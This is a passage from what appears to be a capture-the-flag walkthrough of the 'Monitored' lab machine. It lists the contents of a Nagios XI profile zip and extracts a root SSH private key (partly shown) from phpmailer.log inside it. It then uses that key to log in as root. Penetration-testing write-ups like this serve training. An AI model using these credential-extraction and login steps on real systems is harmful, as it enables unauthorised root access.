 ```
        0  2024-05-09 08:57   profile-1715259437/nom/checkpoints/nagioscore/
        0  2024-05-09 08:57   profile-1715259437/nom/checkpoints/nagioscore/errors/
        0  2024-05-09 08:57   profile-1715259437/nom/checkpoints/nagiosxi/
    33424  2024-05-09 08:57   profile-1715259437/nom/checkpoints/nagiosxi/1715254696_nagiosql.sql.gz
     2176  2024-05-09 08:57   profile-1715259437/cpuinfo.txt
       10  2024-05-09 08:57   profile-1715259437/hostinfo.txt
        0  2024-05-09 08:57   profile-1715259437/logs/
   160066  2024-05-09 08:57   profile-1715259437/logs/other_vhosts_access.log.1.txt
     6571  2024-05-09 08:57   profile-1715259437/logs/error.log.txt
      451  2024-05-09 08:57   profile-1715259437/logs/error.log.2.gz.txt
     1005  2024-05-09 08:57   profile-1715259437/logs/snmpttsystem.txt
       31  2024-05-09 08:57   profile-1715259437/logs/database_host.txt
   158898  2024-05-09 08:57   profile-1715259437/logs/other_vhosts_access.log.txt
      389  2024-05-09 08:57   profile-1715259437/logs/other_vhosts_access.log.2.gz.txt
   343437  2024-05-09 08:57   profile-1715259437/logs/access.log.1.txt
   112286  2024-05-09 08:57   profile-1715259437/logs/messages.txt
   351285  2024-05-09 08:57   profile-1715259437/logs/access.log.txt
    18206  2024-05-09 08:57   profile-1715259437/logs/error.log.1.txt
      182  2024-05-09 08:57   profile-1715259437/file_counts.txt
    22098  2024-05-09 08:57   profile-1715259437/memorybyprocess.txt
        0  2024-05-09 08:57   profile-1715259437/bpi/
      262  2024-05-09 08:57   profile-1715259437/bpi/bpi.conf
---------                     -------
  1641616                     61 files

```

I only care about one file:

```

nagios@monitored:/usr/local/nagiosxi/var/components$ unzip -p profile.zip profile-1715259437/phpmailer.log
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZYnlG22OdnxaaK98DJMc9isuSgg9wtjC0r1iTzlSRVhNALtSd2C
FSINj1byqeOkrieC8Ftrte+9eTrvfk7Kpa8WH0S0LsotASTXjj4QCuOcmgq9Im5SDhVG7/
...[snip]...
CNvArnlhyB8ZevAAAADnJvb3RAbW9uaXRvcmVkAQIDBA==
-----END OPENSSH PRIVATE KEY-----

```

#### SSH

With that key, I can SSH into Monitored as root:

```

oxdf@hacky$ ssh -i ~/keys/monitored-root root@monitored.htb
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May  8 15:28:08 2024
root@monitored:~# 

```
